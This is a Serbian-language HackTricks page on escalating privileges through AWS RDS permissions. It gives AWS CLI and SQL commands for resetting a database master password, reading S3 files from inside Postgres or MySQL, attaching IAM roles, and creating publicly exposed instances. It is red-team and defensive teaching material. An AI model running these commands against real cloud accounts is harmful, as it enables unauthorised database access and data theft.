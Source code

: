 # AWS - RDS Privilegije eskalacija

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## RDS - Relacijska baza podataka usluga

Za više informacija o RDS-u proverite:

{% content-ref url="../aws-services/aws-databases/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-databases/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

Sa ovom dozvolom napadač može **izmeniti lozinku glavnog korisnika** i prijaviti se unutar baze podataka:
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
{% hint style="warning" %}
Morate biti u mogućnosti da **kontaktirate bazu podataka** (obično su dostupne samo iz unutrašnjih mreža).
{% endhint %}

**Potencijalni uticaj:** Pronalaženje osetljivih informacija unutar baza podataka.

### rds-db:connect

Prema [**dokumentaciji**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html), korisnik sa ovlašćenjem može se povezati sa instancom baze podataka.

### Zloupotreba RDS Role IAM ovlašćenja

#### Postgresql (Aurora)

{% hint style="success" %}
Ako pokrenete **`SELECT datname FROM pg_database;`** i pronađete bazu podataka nazvanu **`rdsadmin`**, znate da se nalazite unutar **AWS postgresql baze podataka**.
{% endhint %}

Prvo možete proveriti da li je ova baza podataka korišćena za pristup nekoj drugoj AWS usluzi. To možete proveriti pregledanjem instaliranih ekstenzija:
```sql
SELECT * FROM pg_extension;
```
Ako pronađete nešto poput **`aws_s3`**, možete pretpostaviti da ova baza podataka ima **neku vrstu pristupa nad S3** (postoje i druge ekstenzije poput **`aws_ml`** i **`aws_lambda`**).

Takođe, ako imate dozvole za pokretanje **`aws rds describe-db-clusters`**, možete videti da li **klaster ima bilo koju IAM ulogu pridruženu** u polju **`AssociatedRoles`**. Ako ima, možete pretpostaviti da je baza podataka **pripremljena za pristup drugim AWS uslugama**. Na osnovu **imena uloge** (ili ako možete dobiti **dozvole** uloge), možete **pretpostaviti** kakav dodatni pristup baza podataka ima.

Sada, da biste **pročitali datoteku unutar kante**, morate znati punu putanju. Možete je pročitati sa:
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
Ako imate **sirove AWS akreditive**, možete ih koristiti i za pristupanje S3 podacima pomoću:
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
{% hint style="info" %}
Postgresql **ne mora da promeni bilo koju varijablu grupe parametara** da bi mogao da pristupi S3.
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
Unutar mysql-a, ako pokrenete upit **`SELECT User, Host FROM mysql.user;`** i postoji korisnik pod imenom **`rdsadmin`**, možete pretpostaviti da se nalazite unutar **AWS RDS mysql db**.
{% endhint %}

Unutar mysql-a pokrenite **`show variables;`** i ako promenljive kao što su **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`** imaju vrednosti, možete pretpostaviti da je baza podataka spremna za pristup S3 podacima.

Takođe, ako imate dozvole za pokretanje **`aws rds describe-db-clusters`** možete proveriti da li klaster ima bilo koju **povezanu ulogu**, što obično znači pristup AWS uslugama).

Sada, da biste **pročitali datoteku unutar kante**, morate znati punu putanju. Možete je pročitati sa:
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

Napadač sa dozvolama `rds:AddRoleToDBCluster` i `iam:PassRole` može **dodati određenu ulogu postojećem RDS instanci**. Ovo bi moglo omogućiti napadaču da **pristupi osetljivim podacima** ili izmeni podatke unutar instance.
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**Potencijalni uticaj**: Pristup osetljivim podacima ili neovlašćene izmene podataka u RDS instanci.\
Napomena da neki DB-ovi zahtevaju dodatne konfiguracije kao što je Mysql, koji mora da specificira ARN uloge u grupama parametara takođe.

### `rds:CreateDBInstance`

Samo sa ovlašćenjem, napadač bi mogao da kreira **novu instancu unutar postojećeg klastera** koja ima pridruženu **IAM ulogu**. Neće moći da promeni lozinku glavnog korisnika, ali bi mogao da izloži novu instancu baze podataka internetu:
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: Test
{% endhint %}

Napadač sa dozvolama `rds:CreateDBInstance` i `iam:PassRole` može **kreirati novu RDS instancu sa određenom ulogom pridruženom**. Napadač može potencijalno **pristupiti osetljivim podacima** ili izmeniti podatke unutar instance.

{% hint style="warning" %}
Neophodni zahtevi za pridruživanje uloge/instance profila (sa [**ovde**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)):

* Profil mora postojati u vašem nalogu.
* Profil mora imati IAM ulogu koju Amazon EC2 može preuzeti.
* Ime instance profila i pripadajuće ime IAM uloge moraju početi sa prefiksom `AWSRDSCustom`.
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**Potencijalni uticaj**: Pristup osetljivim podacima ili neovlašćene izmene podataka u RDS instanci.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

Napadač sa dozvolama `rds:AddRoleToDBInstance` i `iam:PassRole` može **dodati određenu ulogu postojećoj RDS instanci**. Ovo bi omogućilo napadaču da **pristupi osetljivim podacima** ili izmeni podatke unutar instance.

{% hint style="warning" %}
DB instanca mora biti van klastera za ovo
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**Potencijalni uticaj**: Pristup osetljivim podacima ili neovlašćene izmene podataka u RDS instanci.

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu**, proverite [**PLANOVE ZA PRETPLATU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
